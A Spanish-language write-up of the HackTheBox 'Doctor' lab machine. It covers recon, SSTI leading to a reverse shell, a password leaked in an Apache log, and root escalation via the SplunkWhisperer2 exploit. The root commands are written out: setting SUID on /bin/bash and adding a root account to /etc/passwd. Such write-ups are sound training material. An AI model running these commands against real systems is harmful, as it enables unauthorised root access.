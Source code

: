 ```yaml
---
title: HackTheBox - Doctor
author: cotes
date: 2023-09-06 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, SSTI, SplunkWhisperer2, 'Information Leakage']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Doctor/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Doctor Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackThBox.

Técnicas usadas: **SSTI, SplunkWhisperer2, Information Leakage**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos en la **`Máquina Doctor`**

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Doctor/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos.

* **`nmap -p<Ports> -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Doctor/02-versions.png)


> Añadimos el host **`doctors.htb`** en el archivo **`/etc/hosts`**
{: .prompt-info }


c. Inspeccionamos el sitio **`http://doctor.htb`** y registramos una cuenta.

![](/assets/images/HTB/Easy/Doctor/03-web.png)

> El uso de Flask lo hace propenso a un **`SSTI`**
{: .prompt-info }

![](/assets/images/HTB/Easy/Doctor/04-ssti.png)

* Al no obtener un **`49`** como respuesta, indagamos en el código fuente de la página web, aquí, nos encontramos con un comentario que menciona una ruta que sea encuentra en 'beta'

![](/assets/images/HTB/Easy/Doctor/05-leakeage.png)

* Visitamos esta nueva ruta e inspeccionamos su código fuente

![](/assets/images/HTB/Easy/Doctor/05-xml.png)

> El payload es interpretado por lo cual el ataque **`SSTI`** funciona.

d. Nos encontablaremos una reverse shell [STTI - RCE](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#jinja2-python)

![](/assets/images/HTB/Easy/Doctor/06-reverse.png)

* Ahora, vamos a la ruta **`/archive`** y la recargamos, para ejecutar el comando.

    ![](/assets/images/HTB/Easy/Doctor/07-reverse.png)


### Escalada de Privilegios 💹

a. Vemos los grupos a los que pertenecemos

```bash
web@doctor:~$ id
uid=1001(web) gid=1001(web) groups=1001(web),4(adm)
```

> El grupo **`adm`** está autorizado para ver archivos logs.
{: .prompt-info }

* En el directorio **`/var/log/apache2`** existe un archivo **`backup`** el cual no es usual, por lo que lo leemos en busca de alguna contraseña

```bash
web@doctor:/var/log/apache2$ grep -i 'pass' backup
10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"
```

b. Obtenemos la contraseña **`Guitar123`** y tenemos otro usuario en el sistema **`shaun`**, intentamos convertirnos en este usuario

```bash
web@doctor:/var/log/apache2$ su shaun
Password: Guitar123
shaun@doctor:/var/log/apache2$
```

e. Al no encontrar una forma de escalar privilegios, visitamos el otro sitio web que estaba disponible **`https://<IP Doctor>:8089`**

![](/assets/images/HTB/Easy/Doctor/08-splunk.png)

* Visitamos cada uno de los módulos, estos requieren de auntenticación, por lo que intentamos loguearnos con las credenciales **`shaun:Guitar123`**
* El módulo que contiene información interesante es **`services`** y si visitamos la ruta **`/services/admin/users`** veremos que **`shaun`** es administrador del sistema.

f. Buscamos vulnerabilidades asociadas a **`splunk`** [SplunkWhisperer2](https://github.com/cnotin/SplunkWhisperer2) y [Splunk - HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/splunk-lpe-and-persistence)

* Una vez descargado el exploit podemos ejecutar comandos como **`root`**

```bash
> python PySplunkWhisperer2_remote.py --host [IP Doctor] --port 8089 --lhost [tun0 IP]  --username shaun --password Guitar123 --payload "chmod +s /bin/bash"
```

* Con esto la bash ya tiene el permiso **`SUID`** y podemos spawnear una como **`root`**

    ```bash
    shaun@doctor:/var/log/apache2$ ls -la /bin/bash
    -rwsr-sr-x 1 root root 1183448 Jun 18  2020 /bin/bash
    shaun@doctor:/var/log/apache2$ bash -p
    bash-5.0# whoami
    root
    ```

* También podemos agregar un usuario en el fichero **`/etc/passwd`**

```bash
> openssl passwd hola
$1$EHU.NHFo$95A.r07oTWCErDLLwtbV9.

> python PySplunkWhisperer2_remote.py --host [IP Doctor] --port 8089 --lhost [tun0 IP]  --username shaun --password Guitar123 "echo 'testing:\$1\$EHU.NHFo\$95A.r07oTWCErDLLwtbV9.:0:0::/home:/bin/bash' >> /etc/passwd"

<SNIP>
[ENTER]
```

* Si nos convertimos en **`testing`** tendremos una shell como **`root`**

    ```bash
    shaun@doctor:/var/log/apache2$ tail -n 1 /etc/passwd
    testing:$1$EHU.NHFo$95A.r07oTWCErDLLwtbV9.:0:0::/home:/bin/bash
    shaun@doctor:/var/log/apache2$ su testing
    Password: hola
    root@doctor:/var/log/apache2#
    ```
